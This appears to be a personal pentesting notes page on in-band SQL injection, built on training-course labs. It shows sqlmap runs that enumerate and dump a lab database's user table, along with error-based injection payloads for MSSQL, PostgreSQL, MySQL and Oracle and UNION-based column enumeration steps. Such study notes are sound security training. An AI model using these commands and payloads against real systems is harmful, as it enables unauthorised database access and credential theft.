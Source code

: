 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
In-Band SQLi occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Error-Based

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

On way of making a database to return verbose error messages, which often include its version, is by forcing erroneous data type conversions (Figure 3).

```sql
// MSSQL and PostgreSQL payload
cast(@@version as integer)
```

<figure><img src="../../../../.gitbook/assets/web_sqli_error_based_1.png" alt=""><figcaption><p>Figure 3: Forcing a verbose error message disclosing the database's version.</p></figcaption></figure>

MySQL returns a `null` value instead of throwing an error, so its XML functions need to be used: `ExtractValue()` and `UpdateXML()`. The goal while using the former is to submit an invalid XPath expression. In this case, the `>` is used because it is a delimiter in XML and cannot be part of a valid XML node.

```sql
// MySQL payload
extractvalue('',concat('>',version()))
```

For Oracle databases, the syntax is becoming more complicated and a sub-query along with the double pipe operator (`||`) for concatenation needs to be used.

```sql
to_char(
  dbms_xmlgen.getxml(
    'select "'||
      (select substr(banner,0,30) from v$version where rownum=1)
    ||'" from sys.dual'
  )
) 
```

## UNION-Based

{% hint style="info" %}
A **SQLi `UNION` attack** occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

For a successful `UNION` attack two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [How many columns](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [Which columns are suitable](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#data-types) to hold the results from the injected query?

### Number of Columns <a href="#number-of-columns" id="number-of-columns"></a>

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><img src="../../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><img src="../../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><img src="../../../../.gitbook/assets/lab2_datatype_pos (1).png" alt=""><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>

